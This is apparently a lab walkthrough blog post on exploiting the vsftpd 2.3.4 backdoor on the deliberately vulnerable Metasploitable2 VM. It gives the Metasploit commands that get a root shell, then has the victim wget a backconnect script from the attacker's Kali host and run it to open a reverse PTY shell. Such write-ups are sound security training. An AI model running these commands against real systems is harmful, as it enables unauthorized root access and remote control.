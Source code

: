 ```yaml
---
layout: post
title: "Metasploitable2 - vsftpd 2.3.4"
categories: metasploitable
---
```

<hr>
Metasploitable2 is a virtual machine that is an intentionally vulnerable operating system based on Ubuntu. Designed for testing security tools, and common vulnerabilities.<br>
Download link here: <https://metasploit.help.rapid7.com/docs/metasploitable-2><br>
<br>
Metasploitable2 has a large attack surface, but we will be focusing on FTP in this post which looks at the vulnerable version of vsftpd 2.3.4
<hr>
#### Nmap scan
My Metasploitable2 IP is 192.168.1.78<br>
`nmap -sC -sV -oA initial-scan 192.168.1.78`
![](\Images\metasploitable\vsftpd234\1.png)
<hr>
#### Anonymous Login
From the scan we can see the version of FTP which is vsftpd 2.3.4, but we can also see that anonymous logins are allowed.
As a starting point lets see if there's any loot.<br>
`ftp 192.168.1.78`<br>
<br>
Because its anonymous login, we can use either ftp or anonymous for the username and any password we want. For example use<br>
`ftp:ftp`<br>
![](\Images\metasploitable\vsftpd234\2.png)<br><br>
List the files within FTP<br>
`ls`<br>
![](\Images\metasploitable\vsftpd234\3.png)<br><br>
There is 1 file in ftp called "nothing_here". We can download the file to our local machine with<br> `get nothing_here`<br><br>
There is nothing there, This was just an example of anonymous logins
<hr>
#### vsftpd 2.3.4
Back to the version of FTP which is vsftp 2.3.4<br>
using searchsploit for vsftpd returns these results<br>
`searchsploit vsftpd`<br>
![](\Images\metasploitable\vsftpd234\4.png)<br><br>
There is a backdoor Metasploit module for our vsftpd (2.3.4) version.
<hr>
#### Metasploit
Start Metasploit<br>
`msfconsole`<br><br>
Search for where the exploit lives in metasploit<br>
`search vsftpd 2.3.4`<br>
![](\Images\metasploitable\vsftpd234\5.png)<br><br>
We are going to use the backdoor which is #3<br>
`use exploit/unix/ftp/vsftpd_234_backdoor`<br><br>
Lets look at the options we need to set.<br>
`options`<br>
![](\Images\metasploitable\vsftpd234\6.png)<br><br>
RHOSTS setting is currently empty, and RHOSTS is required for this exploit to work. Set it to your Metasploitable2 IP<br>
(RHOSTS - Remote Host)<br>
`set rhost 192.168.1.78`<br><br>
Show options again, the remote host has been set<br>
`options`
![](\Images\metasploitable\vsftpd234\7.png)<br><br>
At this point we are good to exploit<br>
`exploit`<br>
![](\Images\metasploitable\vsftpd234\8.png)<br><br>
Congratulations, We are in!<br><br>
If we type id, it tells us that we are root.<br>
`id`<br>
![](\Images\metasploitable\vsftpd234\9.png)<br><br>
This isn't much of a shell, Lets upgrade it!<br>
Leave this metasploit terminal running we'll need it later<br>
<hr>
#### Upgrading the shell to a fully interactive PTY
We could of placed a meterpreter payload in our exploit, but we are going to get a python PTY shell, that lets you use nano/vi to write files, shows where you are in the file structure, and lets you auto complete with TAB.<br>
This has a bit more of a setup, but it's good practice as we wont always be able to use Metasploit to open meterpreter shells.<br><br>
Lets begin<br>

Open a new terminal<br>
Download python pty shells from github - <https://github.com/infodox/python-pty-shells><br>
`git clone https://github.com/infodox/python-pty-shells.git`<br><br>
cd into python-pty-shells folder<br>
`cd python-pty-shells`<br>

We will be using 2 scripts
* tcp_pty_backconnect.py
* tcp_pty_shell_handler.py

Edit  tcp_pty_backconnect.py script with your favorite text editor (I use VIM) and change the "lhost" to your Kali machines IP, and save it.<br><br>
Make note of "lhost" and "lport" we will need them<br>
My Kali machines IP is 192.168.1.240<br>
![](\Images\metasploitable\vsftpd234\10.png)<br><br>

Set up a listener to catch the shell, Remember the "lhosts" and "lport" from tcp_pty_backconnect.py they're used in this command<br>
`python tcp_pty_shell_handler.py -b 192.168.1.240:31337`<br>
![](\Images\metasploitable\vsftpd234\11.png)<br><br>

Open a new terminal in python-pty-shells folder and setup a basic http server with python (default port is 8000)<br>
The reason we setup a http server is so we can download tcp_pty_backconnect.py from our Kali machine to the metasploitable machine<br>
`python -m SimpleHTTPServer`<br>
![](\Images\metasploitable\vsftpd234\12.png)<br><br>

Go back to the metasploit shell<br>
We will download the script in /root with the name of pty_shell<br>
`wget 192.168.1.240:8000/tcp_pty_backconnect.py -O /root/pty_shell`<br>
![](\Images\metasploitable\vsftpd234\13.png)<br><br>

Still in the metasploit shell, cd into root directory and list the files, you should see pyt_shell in the output<br>
`cd /root`<br>
`ls`<br>
![](\Images\metasploitable\vsftpd234\14.png)<br><br>

Run the pty_shell script<br>
`python pty_shell`<br>
![](\Images\metasploitable\vsftpd234\15.png)<br><br>
Have a look at the listener that we set up earlier to see if you caught the shell<br>
![](\Images\metasploitable\vsftpd234\16.png)<br><br>

Congrats, you just upgraded to a fully interactive PTY shell.<br><br>
There are multiple ways of achieving this, for example we could of uploaded the backconnect script straight into the ftp server. This is just the way I did it.<br>
Thanks for reading<br>
Happy Hacking!
